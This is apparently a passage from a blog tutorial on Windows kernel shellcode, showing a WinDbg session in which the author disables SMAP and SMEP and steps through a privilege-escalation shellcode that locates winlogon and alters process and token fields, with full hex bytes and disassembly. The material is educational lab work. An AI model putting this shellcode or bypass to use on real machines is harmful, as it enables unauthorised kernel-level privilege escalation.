 ![](imgs/blog/1WindowsKernelShellcode/20250222013847.png)
We set a BP on NtCreateTransaction, inspect the shellcode buffer, disable SMAP and SMEP, set rip, step over, set a BP on the shellcode’s ret, continue with g, reset rip, and continue:
```python
nt!DbgBreakPointWithStatus:
fffff801`208203e0 cc              int     3
0: kd> bp nt!NtCreateTransaction
0: kd> bl
     0 e Disable Clear  fffff801`207d2490     0001 (0001) nt!NtCreateTransaction

0: kd> g
Breakpoint 0 hit
nt!NtCreateTransaction:
fffff801`207d2490 4c8b15f90fd7ff  mov     r10,qword ptr [nt!_imp_NtCreateTransaction (fffff801`20543490)]
4: kd> db 280386e0000
00000280`386e0000  90 65 4c 8b 04 25 88 01-00 00 4d 8b 80 20 02 00  .eL..%....M.. ..
00000280`386e0010  00 4c 89 c1 4d 8b 80 48-04 00 00 49 81 e8 48 04  .L..M..H...I..H.
00000280`386e0020  00 00 41 81 b8 a8 05 00-00 77 69 6e 6c 75 e5 49  ..A......winlu.I
00000280`386e0030  83 e8 30 4d 8b 40 28 49-83 e0 f0 41 c6 40 48 0b  ..0M.@(I...A.@H.
00000280`386e0040  48 8b 89 b8 04 00 00 48-83 e1 f0 c6 81 d4 00 00  H......H........
00000280`386e0050  00 00 90 c3 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000280`386e0060  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
00000280`386e0070  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
4: kd> u 280386e0000 L20
00000280`386e0000 90              nop
00000280`386e0001 654c8b042588010000 mov   r8,qword ptr gs:[188h]
00000280`386e000a 4d8b8020020000  mov     r8,qword ptr [r8+220h]
00000280`386e0011 4c89c1          mov     rcx,r8
00000280`386e0014 4d8b8048040000  mov     r8,qword ptr [r8+448h]
00000280`386e001b 4981e848040000  sub     r8,448h
00000280`386e0022 4181b8a805000077696e6c cmp dword ptr [r8+5A8h],6C6E6977h
00000280`386e002d 75e5            jne     00000280`386e0014
00000280`386e002f 4983e830        sub     r8,30h
00000280`386e0033 4d8b4028        mov     r8,qword ptr [r8+28h]
00000280`386e0037 4983e0f0        and     r8,0FFFFFFFFFFFFFFF0h
00000280`386e003b 41c640480b      mov     byte ptr [r8+48h],0Bh
00000280`386e0040 488b89b8040000  mov     rcx,qword ptr [rcx+4B8h]
00000280`386e0047 4883e1f0        and     rcx,0FFFFFFFFFFFFFFF0h
00000280`386e004b c681d400000000  mov     byte ptr [rcx+0D4h],0
00000280`386e0052 90              nop
00000280`386e0053 c3              ret
00000280`386e0054 0000            add     byte ptr [rax],al
00000280`386e0056 0000            add     byte ptr [rax],al
00000280`386e0058 0000            add     byte ptr [rax],al
00000280`386e005a 0000            add     byte ptr [rax],al
00000280`386e005c 0000            add     byte ptr [rax],al
00000280`386e005e 0000            add     byte ptr [rax],al
00000280`386e0060 0000            add     byte ptr [rax],al
```